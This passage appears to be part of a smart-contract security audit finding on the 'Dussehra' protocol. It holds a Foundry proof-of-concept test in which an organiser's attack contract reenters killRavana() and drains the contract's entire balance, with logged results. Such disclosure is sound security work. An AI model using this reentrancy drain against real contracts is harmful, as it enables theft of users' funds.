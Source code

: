 ```js
            vm.startPrank(players[i]);
            dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
            vm.stopPrank();
        }
        _;
    }
```
- First, the `rug_organiser` user will deploy the attack contract gaining `onlyOwner` privileges
- Next, the attack contract will deploy `RamNFT` which will be used to deploy the remaining contracts in the protocol
- The rest of the set up enters `rug_organiser` and an arbitrary amount of users into the protocol.

`Foundry` attack test:
```js
function test_organizerReenterWorks() public participants {
	uint256 contractBalance = address(dussehra).balance;
	console.log("balanceStart: ", contractBalance);

	vm.warp(1728691200 + 1);
	vm.startPrank(rug_organiser);
	attack.attack();
	vm.stopPrank();

	contractBalance = address(dussehra).balance;
	uint256 RamwinningAmount = dussehra.totalAmountGivenToRam();
	console.log("balance2: ", contractBalance);
	console.log("RamwinningAmountStart: ", RamwinningAmount);

	vm.startPrank(rug_organiser);
	dussehra.killRavana();
	vm.stopPrank();

	contractBalance = address(dussehra).balance;
	RamwinningAmount = dussehra.totalAmountGivenToRam();
	console.log("balanceEnd: ", contractBalance);
	console.log("RamwinningAmountEnd: ", RamwinningAmount);
}
//  balanceStart:  6000000000000000000
//  balance2:  6000000000000000000
//  RamwinningAmountStart:  0
//  balanceEnd:  0
//  RamwinningAmountEnd:  3000000000000000000
```
- The attack simulates the `rug_organiser` calling `OrganizerReenter::attack()` to make sure `ChoosingRam::isRamSelected` is `true`
- Then the `rug_organiser` (or anyone) calls the `Dussehra::killRavana()` function which starts the attack be interaction with the `OrganizerReenter::receive()` function
- The contract will be drained of all funds while `Dussehra::totalAmountGivenToRam` will still display 50% of the mint fees

## Impact
This is a high risk vulnerability that allows `RamNFT::organiser` to take all the funds.
